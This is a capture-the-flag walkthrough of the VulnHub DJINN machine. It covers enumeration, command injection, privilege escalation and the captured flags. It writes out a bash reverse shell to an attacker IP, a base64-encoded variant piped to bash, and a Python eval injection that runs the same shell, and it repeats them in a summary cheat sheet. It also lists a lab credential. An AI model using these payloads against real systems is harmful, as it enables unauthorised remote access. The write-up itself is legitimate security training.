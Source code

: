 ```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc, Python Compiled (.pyc)]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```


## Description ⤵️


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```
{: .nolineno}

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

Lets see what I got from FTP server.

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)


## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing `id` command I got this, `Command Injection` working properly →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after doing so many hardwork, I got to know that for achieving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```
{: .nolineno}

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

After some enumeration I got another cred like this :

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

I got `.pyc` file in `/home/sam/.pyc` After transferring to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

```bash
proof.txt → 33eur2wjdmq80z47nyy4fx54bnlg3ibc
```

<hr>

# Summery Notes →

> These are the important commands, I used above.
> `bash -i >& /dev/tcp/10.0.2.10/4444 0>&1` <br>
> `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash` 
> `sudo -u sam /usr/bin/genie -cmd whoami` 
> `eval ('__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")')`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }